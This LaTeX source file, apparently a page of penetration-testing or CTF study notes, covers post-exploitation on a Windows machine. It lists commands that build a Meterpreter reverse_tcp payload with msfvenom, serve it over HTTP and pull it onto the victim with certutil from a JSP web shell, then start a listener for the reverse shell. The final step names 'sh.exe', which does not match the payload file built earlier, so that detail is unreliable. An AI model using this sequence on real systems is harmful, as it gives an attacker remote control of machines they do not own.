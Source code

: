 \documentclass[a4paper,11pt]{article}
\renewcommand{\tt}[2][tt]{\textcolor{#1}{\ttfamily #2}}%
\begin{document}
{\bfseries Post-exploitation}

Is the current payload uncomfortable to you? Do you want to switch to something like \tt{meterpreter}. On a Windows machine, you can donwload a shell made from your machine by putting a meterpreter shell payload on an HTTP server.
\begin{itemize}
    \item \tt{\$ msfvenom -p windows/x64/meterpreter/reverse\_tcp LHOST=<your tunnel IP>}
    
    \tt{LPORT=<any unused port, eg 5555> -f exe > exeshell.exe}
    \item \tt{python -m SimpleHTTPServer 80} (on the same directory as the payload we just made)
    \item On \tt{msfconsole}, use \tt{multi/handler} and set the appropriate options, then \tt{run} it to start listening.
    \item On the Windows JSP (JavaServer Pages) shell:
    
    \tt{certutil -urlcache -f http://<your IP>/exeshell.exe <filename>}
    \item Execute it on the victim machine by typing \tt{sh.exe}
\end{itemize}
\pagebreak
\end{document}
